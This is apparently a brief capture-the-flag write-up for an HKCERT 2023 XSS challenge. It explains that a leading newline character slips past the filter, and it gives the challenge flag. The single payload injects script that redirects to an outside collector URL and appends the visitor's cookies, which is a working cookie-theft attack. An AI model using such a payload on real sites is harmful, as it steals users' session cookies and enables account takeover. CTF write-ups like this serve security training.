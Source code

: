# Infant XSS again

payload:

```
http://infantxss-xsw7tt.hkcert23.pwnable.hk:28314/?payload=%0Awindow.location%3D%27https%3A%2F%2Feou6qllnt3mb4pl.m.pipedream.net%2F%3Fcookie%3D%27%2Bdocument.cookie
```
the key of this challenge is the newline character `%0A`

flag: hkcert23{worst_then_sanitary_cheque}
